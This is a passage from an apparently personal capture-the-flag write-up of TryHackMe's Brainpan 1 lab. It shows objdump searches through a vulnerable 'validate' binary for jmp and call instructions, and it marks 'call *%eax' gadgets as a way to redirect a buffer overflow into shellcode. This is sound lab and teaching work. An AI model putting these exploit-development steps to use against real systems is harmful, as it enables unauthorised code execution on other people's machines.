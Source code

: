 ```bash
```

note: `$esp` is pointing at nothing and `$eax` is pointing to our shellcode place-holders (i.e. the A's), so we use `$eax` to jump to our shellcode.

Let's see if there's a `jmp` instruction in the binary that can get us to the `eax` register:

```bash
┌──(kali㉿kali)-[~/…/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1]
└─$ objdump -d validate | grep -i jmp
 8048382:       ff 25 fc 9f 04 08       jmp    *0x8049ffc
 804838c:       ff 25 00 a0 04 08       jmp    *0x804a000
 8048397:       e9 e0 ff ff ff          jmp    804837c <.plt>
 804839c:       ff 25 04 a0 04 08       jmp    *0x804a004
 80483a7:       e9 d0 ff ff ff          jmp    804837c <.plt>
 80483ac:       ff 25 08 a0 04 08       jmp    *0x804a008
 80483b7:       e9 c0 ff ff ff          jmp    804837c <.plt>
 80483bc:       ff 25 0c a0 04 08       jmp    *0x804a00c
 80483c7:       e9 b0 ff ff ff          jmp    804837c <.plt>
 80483cc:       ff 25 10 a0 04 08       jmp    *0x804a010
 80483d7:       e9 a0 ff ff ff          jmp    804837c <.plt>
 80483dc:       ff 25 14 a0 04 08       jmp    *0x804a014
 80483e7:       e9 90 ff ff ff          jmp    804837c <.plt>
 80483ec:       ff 25 18 a0 04 08       jmp    *0x804a018
 80483f7:       e9 80 ff ff ff          jmp    804837c <.plt>
 80484cc:       eb 3a                   jmp    8048508 <validate+0x54>
 8048562:       eb 39                   jmp    804859d <main+0x65>
```

no `jmp` instructions. what about a `call` instruction?

```bash
┌──(kali㉿kali)-[~/…/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1]
└─$ objdump -d validate| grep -i call
 8048353:       e8 00 00 00 00          call   8048358 <_init+0xc>
 8048369:       e8 1e 00 00 00          call   804838c <__gmon_start__@plt>
 804836e:       e8 1d 01 00 00          call   8048490 <frame_dummy>
 8048373:       e8 98 02 00 00          call   8048610 <__do_global_ctors_aux>
 804841c:       e8 7b ff ff ff          call   804839c <__libc_start_main@plt>
 8048468:       ff 14 85 14 9f 04 08    call   *0x8049f14(,%eax,4)
 80484af:       ff d0                   call   *%eax         # <--- here's one!
 80484f3:       e8 d4 fe ff ff          call   80483cc <printf@plt>
 80484ff:       e8 e8 fe ff ff          call   80483ec <exit@plt>
 8048511:       e8 96 fe ff ff          call   80483ac <strlen@plt>
 8048527:       e8 90 fe ff ff          call   80483bc <strcpy@plt>
 8048558:       e8 6f fe ff ff          call   80483cc <printf@plt>
 804856c:       e8 5b fe ff ff          call   80483cc <printf@plt>
 804857c:       e8 33 ff ff ff          call   80484b4 <validate>
 8048593:       e8 44 fe ff ff          call   80483dc <puts@plt>
 80485b6:       e8 4f 00 00 00          call   804860a <__i686.get_pc_thunk.bx>
 80485c4:       e8 83 fd ff ff          call   804834c <_init>
 80485f4:       ff 94 b3 18 ff ff ff    call   *-0xe8(%ebx,%esi,4)
 804862b:       ff d0                   call   *%eax         # <--- here's another!
 8048643:       e8 00 00 00 00          call   8048648 <_fini+0xc>
 804864f:       e8 dc fd ff ff          call   8048430 <__do_global_dtors_aux>
```

